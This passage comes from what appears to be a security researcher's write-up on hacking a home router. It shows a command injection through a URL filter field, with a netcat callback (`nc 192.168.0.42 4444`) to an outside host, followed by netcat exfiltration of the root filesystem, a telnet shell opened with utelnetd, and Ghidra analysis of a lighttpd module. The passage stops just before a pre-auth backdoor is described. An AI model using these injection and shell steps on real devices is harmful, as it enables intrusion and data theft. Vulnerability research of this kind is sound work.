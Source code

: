 Now we are able to use any string we want as a filter, and attempting to filter the URL `nc 192.168.0.42 4444` sends a TCP connection to my machine!

![image](https://user-images.githubusercontent.com/25673723/184678277-57633eac-4228-4ffd-9a34-94caa64f6bdf.png)

![image](https://user-images.githubusercontent.com/25673723/184678322-dc4a2dcf-28f7-4ee3-91c7-9811b6cf16c7.png)

By piping the output  of commands to netcat, we can start looking around the filesystem. The folder sbin  contains a binary called utelnetd. Running this binary opens a telnet shell.

![image](https://user-images.githubusercontent.com/25673723/184678347-c83dd32a-7c71-4ff9-8b9d-8396ba69c157.png)

## Hunting for More Bugs
With a shell and netcat present on the device it should be simple enough to download the root filesystem. A quick glance at the file `/proc/cmdline` reveals that the root filesystem is located at `/dev/mmcblk0p12`, which I downloaded with netcat.

At this point I can mount the filesystem on my local machine. I was not quite happy with a single post-auth command injection vulnerability, and wanted to find something a bit more severe. Considering the portscan from the previous segment, I figured the best way forward would be to keep looking for bugs in the web application, but aided by static analysis.

I knew from my curl commands that the server was lighttpd, a very common choice for embedded devices.

![image](https://user-images.githubusercontent.com/25673723/184678447-d55f6cf5-9309-4279-94ed-60ab5744205c.png)

I was unable to find the lighttpd binary on the root filesystem but found it on another partition, `/dev/mmcblk0p14`, which was mounted to the `/fss/gw` directory. This partition seems to contain the binaries for a lot of the user-facing features this router has.

So now I had the webserver binary and it’s configuration file, which was found on the same partition.

![image](https://user-images.githubusercontent.com/25673723/184678607-f1348ec4-d016-48da-81fd-bc78577e24e8.png)

The lighttpd codebase is quite mature and has been audited by a lot of people way smarter than me, so I always analyze the third-party code first. The lighttpd module `mod_cbn_web` looks like it could be interesting, and I will take a look at that next. However, it is important not to disregard the lighttpd binary completely since it could be modified!

The `mod_cbn_web` binary is located at `/lib/mod_cbn_web.so`. Cracking it open in Ghidra and navigating to the `mod_cbn_web_plugin_init` function reveals some function pointers.

![image](https://user-images.githubusercontent.com/25673723/184678762-0895d869-4090-4059-94c4-2eabe40d3924.png)

A quick glance through these functions and it’s clear that the function on index 8 is the primary handler function for my requests. This is where I should start looking for bugs.

![image](https://user-images.githubusercontent.com/25673723/184678803-5bc7315d-dd5e-4fd5-b06a-e8928b2fc41b.png)

### Pre-auth Backdoor
A bit further down in the same function I noticed something interesting. Before any sort of authentication logic I see the following code.
